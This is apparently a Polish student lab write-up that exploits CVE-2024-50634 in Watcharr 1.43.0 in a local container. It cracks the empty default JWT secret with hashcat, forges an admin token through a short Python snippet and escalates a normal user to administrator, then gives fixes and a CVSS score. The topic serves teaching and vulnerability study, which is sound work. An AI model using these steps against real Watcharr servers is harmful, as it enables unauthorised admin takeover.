




# Zadanie 3.9 — Watcharr: eskalacja uprawnień przez pusty sekret JWT (CVE-2024-50634)

> **Cel:** jako zwykły użytkownik `student` uzyskać uprawnienia administratora,
> wykorzystując słaby (pusty!) sekret podpisujący JWT w Watcharr ≤ 1.43.0.

| | |
|---|---|
| **Aplikacja** | `docker compose -f docker-compose-cve-2024-50634.yml up -d` → `http://127.0.0.1:50634` |
| **Konta** | `admin`/`admin` (pierwszy = admin), `student`/`student` (zwykły user) |
| **Podatność** | CVE-2024-50634 — **domyślnie pusty sekret JWT** (`""`) |
| **Wersja** | Watcharr v1.43.0 |

## a–e) Przygotowanie
- Rejestracja `admin` (pierwszy user → automatycznie admin) i `student`.
- Endpoint zmiany uprawnień: **`POST /api/server/users/{id}`** z body
  `{"permissions":3}` (3 = admin). ID studenta = `2`.

## f–g) Rozpoznanie (Burp)
- Przechwycono żądanie admina „nadaj admina": `POST /api/server/users/2`,
  autoryzacja nagłówkiem `Authorization: <JWT>` (bez „Bearer"), body
  `{"permissions":3}`.
- Pobrano JWT studenta z `POST /api/auth/`:
  payload `{"userId":2,"username":"student","type":0,"iss":"watcharr",...}`.

## Analiza — dlaczego sam token studenta nie wystarcza
Wysłanie `POST /api/server/users/2` **z tokenem studenta** → **401 Unauthorized**.
Serwer sprawdza uprawnienia użytkownika z pola `userId` w tokenie (ID 2 ≠ admin).
Podmiana `userId` na `1` przy zachowaniu starego podpisu → też **401**
(podpis jest weryfikowany). Trzeba więc **poprawnie podpisać** własny token.

## e) Łamanie sekretu — hashcat (tryb 16500)
```bash
echo "<JWT studenta>" > watcharr_token.jwt
hashcat -a 0 -m 16500 watcharr_token.jwt jwt.secrets.list --show
# wynik:  <token>:        <-- pusto po dwukropku = sekret to PUSTY STRING ""
```



## h) Podrobienie tokena admina (`forge.py`)
Token z `userId:1` (admin), podpisany **pustym** sekretem:
```python
SECRET = b""
payload = {"userId": 1, "username": "admin", "type": 0, "iss": "watcharr", "iat": ...}
# HS256(header.payload, "") -> poprawny podpis
```
```bash
python3 forge.py   # -> eyJhbGci...  (token "admina")
```



## Atak — awans studenta
Żądanie `POST /api/server/users/2` `{"permissions":3}` z **podrobionym tokenem
admina** → **200 OK** (w Burp Repeater):



## i) Potwierdzenie w UI
Po zalogowaniu jako **student** — konto ma odznakę **`Admin`** i dostęp do panelu
`Users` / zarządzania serwerem:



---

## Na czym polega błąd
Watcharr podpisuje JWT **pustym domyślnym sekretem**, jeśli administrator nie
ustawi własnego. Każdy może więc podpisać token z dowolnym `userId` (np. 1 =
admin) i podszyć się pod administratora, uzyskując pełną kontrolę nad serwerem.

## Jak naprawić
- Wymusić ustawienie **długiego, losowego** sekretu JWT; odmówić startu przy
  pustym/domyślnym sekrecie.
- Weryfikować podpis mocnym kluczem; rozważyć RS256.
- Dodatkowo autoryzować akcje admina po stronie serwera niezależnie od `userId`
  z tokena (defence in depth).

## k) CVSS (propozycja)
Nieuwierzytelniony/niskouprawniony → pełne przejęcie admina:
`CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` ≈ **8.8 (High)**
(do zweryfikowania na kalkulatorze NVD).

## Pliki
- `forge.py` — generator tokena admina (pusty sekret)
- `watcharr_token.jwt` — przykładowy token studenta (do hashcata)
- `docker-compose-cve-2024-50634.yml` — uruchomienie środowiska
